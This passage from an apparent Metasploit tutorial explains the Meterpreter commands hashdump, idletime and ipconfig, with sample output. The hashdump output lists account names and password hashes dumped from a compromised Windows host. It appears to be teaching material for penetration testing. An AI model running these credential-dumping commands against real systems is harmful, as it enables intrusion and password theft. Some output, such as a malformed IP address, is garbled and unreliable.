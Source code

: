 ## hashdump

The `hashdump` command reveals the SAM database of the other computer. Of course, as we mentioned in our previous Database article, if you are using Workspace, it records it in the `loot` table.

```bash
meterpreter > run post/windows/gather/hashdump

> Obtaining the boot key...
> Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAss ist:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >
```

## idletime

Shows how long the remote computer user has been idle.

```bash
meterpreter > idletime
User has been idle **for**: 5 hours 26 mins 35 secs
meterpreter >
```

## ipconfig

Displays the remote computer's network information.

```bash
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address : 127.0.0.1
Netmask : 255.0.0.0

AMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport
Hardware MAC: 00:0c:29:10:f5:15
IP Address : 192.16868.1.104
Netmask : 255.255.0.0

meterpreter >
```
